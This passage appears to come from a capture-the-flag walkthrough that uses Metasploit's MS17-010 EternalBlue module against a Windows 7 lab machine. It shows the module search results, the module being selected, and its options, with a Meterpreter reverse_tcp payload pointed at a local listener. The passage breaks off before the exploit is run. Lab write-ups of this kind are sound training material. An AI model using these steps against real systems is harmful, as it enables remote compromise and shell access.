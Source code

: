```
   22    \_ AKA: ETERNALCHAMPION                      .                .        .      .
   23    \_ AKA: ETERNALBLUE                          .                .        .      .
   24  auxiliary/scanner/smb/smb_ms17_010             .                normal   No     MS17-010 SMB RCE Detection
   25    \_ AKA: DOUBLEPULSAR                         .                .        .      .
   26    \_ AKA: ETERNALBLUE                          .                .        .      .
   27  exploit/windows/smb/smb_doublepulsar_rce       2017-04-14       great    Yes    SMB DOUBLEPULSAR Remote Code Execution
   28    \_ target: Execute payload (x64)             .                .        .      .
   29    \_ target: Neutralize implant                .                .        .      .


Interact with a module by name or index. For example info 29, use 29 or use exploit/windows/smb/smb_doublepulsar_rce
After interacting with a module you can manually set a TARGET with set TARGET 'Neutralize implant'
```
### We going to use this First one ```MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption``` as the name of the machine refer's to the famous vulnerability in windows 7.
### Let use this exploit.
```
msf6 > use exploit/windows/smb/ms17_010_eternalblue
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/smb/ms17_010_eternalblue) >
```
### So,Show options
```
msf6 exploit(windows/smb/ms17_010_eternalblue) > show options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS                          yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT          445              yes       The target port (TCP)
   SMBDomain                       no        (Optional) The Windows domain to use for authentication. Only affects Windows Server 2008 R2, Windows 7, Windows Embedded Standard 7 target mac
                                             hines.
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target. Only affects Windows Server 2008 R2, Windows 7, Windows Embedded Standard 7 target machine
                                             s.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target. Only affects Windows Server 2008 R2, Windows 7, Windows Embedded Standard 7 target machines.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.1.3      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
```